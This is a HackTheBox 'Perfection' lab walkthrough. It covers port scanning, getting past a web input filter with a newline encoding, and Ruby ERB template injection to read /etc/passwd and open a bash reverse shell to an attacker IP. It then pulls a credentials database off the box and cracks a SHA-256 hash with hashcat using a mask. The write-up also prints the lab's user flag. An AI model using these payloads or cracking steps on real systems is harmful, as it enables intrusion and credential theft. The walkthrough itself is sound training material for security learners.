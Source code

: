 ![image](https://github.com/jon-brandy/hackthebox/assets/70703371/cbeae423-15f4-4b7d-962a-6fe855e95752)# Perfection
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a25ccf1b-8041-48e5-9d09-020a945528ef)


## Lessons Learned:
- Exploiting WEBrick 1.7.0
- ERB and reverse shell using Ruby Code Execution.
- Identify potential passwords using hashcat (based on password format).

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sV -sC 10.10.11.253 --min-rate 1000                                           
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-17 20:39 PDT
Nmap scan report for perfection.htb (10.10.11.253)
Host is up (0.017s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80e479e85928df952dad574a4604ea70 (ECDSA)
|_  256 e9ea0c1d8613ed95a9d00bc822e4cfe9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.77 seconds
```

1. Based from the nmap results above, the machine runs a web application at port 80 and opens ssh login.

> WEB APP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/aa0e65bb-d7f4-4cef-ac2a-6f97fb41f177)


2. Scrolling down to the footer section, we identified the web server used is **WEBrick** which is a RUBY library.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/deb7b11b-a64a-47b2-a6b1-44b2819fb424)


3. Searching on the internet about vulns found in **WEBrick 1.7.0** resulting to none.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/29519086-e07e-46de-aae0-af2cfb55c438)


4. Scanning for subdomain and directories also resulting to none. However our interest should be at the **weight grade calculation** feature.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5e3e3123-8c34-4a6d-995e-0ecffda31a1c)


5. After sent normal input, seems it just calculate our grades normally. Nothing special at client-side.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2f3a453e-a418-47a1-90b7-9cff9ec31e83)


6. Tried to execute client-side attack, the webapp reflects us **Malicious Input Blocked**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/26e43bd2-e5a9-4a3a-8cf6-8e90ffccc596)


7. Let's use repeater for further testing.
8. The reflect message is caused because I input the malicious script/code at the **category** column.
9. This time I tried to send `;id ` but encode it with URL.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/48782621-d8df-40c9-bce7-ecac7e8ee39c)


10. It's still blocked.
11. Let's try to send non-malicious URL encoded newline (\n) to test whether it executes encoded URL.

> Sending %0a

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a26e2d7d-7293-4982-866c-2a7258db9e99)


12. It executed, it's a finding then.
13. Great! Now our interest focused on finding the correct ruby command injection or SSTI payloads.
14. Long story short, found a repo which lists all the ruby code execution payloads.

#### NOTES:

```
I dropped all the useful links at the bottom of this MD file.
```

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/48adb320-33a2-449f-8675-753f5c0ee33c)

 
15. Nice, let's use the **read file** payload and encode it in URL format.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/10119366-43a3-4657-8968-73a25330e3a1)


> pwn%0a<%25%3d+File.open('/etc/passwd').read+%25>

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b9c88067-33a6-4ddf-bb80-ee4ee3dee672)



#### NOTES:

```
%0a is needed, because it acts as a delimiter.
```

16. Amazing! Let's try to do reverse shell so it's easier for us to get the user flag.
17. This time let's use the system() code execution payload.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/85217040-bdf2-46d3-8b8f-ba80c927bbdb)


```txt
Bash Reverse Shell Payload:
bash -i >& /dev/tcp/10.10.14.24/1337 0>&1

Wrapped it with Ruby Code Execution Payload:
<%= system("bash -c 'exec bash -i >& /dev/tcp/10.10.14.24/1337 0>&1'") %>

URL ENCODE IT:
<%= system("bash -c 'exec bash -i >& /dev/tcp/10.10.14.24/1337 0>&1'") %>

FULL PAYLOAD:
pwn%0a<%25%3d+system("bash+-c+'exec+bash+-i+>%26+/dev/tcp/10.10.14.24/1337+0>%261'")+%25>
```

18. All we need to do now is set a listener on port 1337 then send the payload using repeater.

> RESULT - Got shell as Susan

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a38add66-1558-4a42-a107-6e53a39c4389)


> GETTING THE USER FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/2fdd20de-cc5b-4577-a0e6-7cd3d12966f3)


## USER FLAG

```
69adddfe701657e656b754bc7b3801d5
```


19. Noticed there is a directory named **Migration**, inside it there's a DB file.
20. Let's exfiltrate it.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/42b76616-2e24-4ece-be1c-57796d68e866)


21. In linux we can open it using **DB Browser**.
22. Found one table named **users**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/45d1b888-4f6f-472b-8d28-5b89ee6da68f)


> Found few creds inside it.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c7678f31-8e03-4568-b1e6-e25ad421ce93)


23. The simplest privesc is to crack the susan password's hash. However **john** and **hashcat** failed to crack it.
24. So I dropped linpeas to enumerate potential vuln that could lead to privesc.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8d4734e0-37fe-4866-bb8c-7024ff50e240)


25. Interesting, Susan seems not part of any group listed.
26. After checking all the results, finally found what seems to be our interest.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1342053d-ac7f-4121-8814-9c3726b1af73)

> Inside /var/mail/susan

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0aac48f5-7ee1-4f83-891a-35f963b7591f)


27. GREAT! it's indeed our interest now.
28. Since it shows the password pattern, then we can use hashcat to helps us crack it.

```
The password format:
{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

9 integers between 1 - 1.000.000.000 --> 2 - 999.999.999

RESULT:
susan_nasus_?d?d?d?d?d?d?d?d?d
```

29. Let's use hashcat.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/340119a0-5482-4896-b085-923dbcd8aebd)


30. Since it's identified as SHA-256 we can use **-m 1400**.

```
COMMAND:
hashcat -m 1400 susan_hash.txt -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d

-m --> mode
-a --> aggresiveness.
```

> RESULT



## IMPORTANT LINKS

```
https://security.snyk.io/package/rubygems/webrick
https://portswigger.net/kb/issues/00100f00_ruby-code-injection
https://www.stackhawk.com/blog/command-injection-ruby/
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
```

